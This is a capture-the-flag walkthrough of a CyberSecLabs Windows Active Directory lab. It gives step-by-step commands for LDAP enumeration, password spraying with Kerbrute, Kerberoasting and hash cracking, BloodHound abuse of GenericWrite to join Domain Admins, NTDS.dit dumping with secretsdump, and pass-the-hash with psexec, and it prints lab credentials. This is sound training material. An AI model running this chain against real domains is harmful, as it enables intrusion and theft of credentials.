## Cyberseclabs - Office Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services runnign on the system.

![nmap_scan.PNG](:/64331b29878a44a5b2bff35dd0613cf5)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![hosts.PNG](:/03b4a89d323946b7a5e5ab63123c624e)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![smbclient.PNG](:/d547e0894893445ab76ea9184d82fc57)

As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![namingcontexts.PNG](:/a5526fb85f0d447f93c12e01def8f827)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>
By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](:/a1b44b37346f4e0fb3480c0154b0cc11)
![crhodes.PNG](:/9f6e86fdae3f4053b14830addd15e512)
![ssmith.PNG](:/cb9e3b8c42db4f6fb16dff6ea8806503)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>
Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](:/b7fe7f7db2734ab18915ed5945a091bb)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](:/5a9bd062dad3454d9295e0eec56e432e)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>
By password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](:/2e0db6036f134be99798de82b798da6a)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](:/93faf572df834310b5343b06a599d6b0)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](:/9d2b16f553d84df2951f9689294fdd61)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](:/ff9b4cc26c334b89bd1f750d5d2912c7)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>
Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- 1. Setup impacket's smb-server
	![smbserver.PNG](:/54cf1644a058412d9a55a2b9c1c0aa60)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- 2. Setup new PSDrive on target machine and mount the share
	![mount.PNG](:/398e5a4e63a144fc958448c879cbced7)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- 3. CD into your share, run bloodhound 
	![sharphound.PNG](:/2f6ae4c9a7374933b2728986f3982fc6)
	- Make sure you upload bloodhound to the directory you created as the share
- 4. Start Bloodhound 
	![bloodhound.PNG](:/a9c5e0824a3a439c81e1b932a7ea1800)
	- neo4j console start
	- bloodhound 

- 5. Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](:/2711aa242a804c03b025b94010c39446)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- 1. Mark user **roastsvc** as **Owned**
	![owned_user.jpg](:/033ae512d51744ef89eb9d29f9d9aca7)
- 2. Use the built-in query 
	![path_to_DA.jpg](:/3af3c76e4f674c14820c983328777f04)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](:/0fc9fc58b26c431c96e384bff32cfe1c)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- 1. List all current members of **Domain Admins** group
	![original_DA_members.PNG](:/51cae26bbcac4ea29e3007122e929219)
	- net group (group-name) /domain
- 2. Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](:/6845e2604392431186fd5dd30a0a00fb)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- 3. Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](:/6ab0558a3ede405a8debb43f10645a3b)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- 1. Dumping the NTDS.dit hash file 
	![secretsdump.PNG](:/97bc160a3efd40349047ef7a3e553550)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- 2. Get the Administrator's hash
	![admin_hash.PNG](:/259cd6438d5445a4b6007cea42617c99)
- 3. PSExec 
	![psexec.PNG](:/97ad6061099f4f5e9ed1effca035842b)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















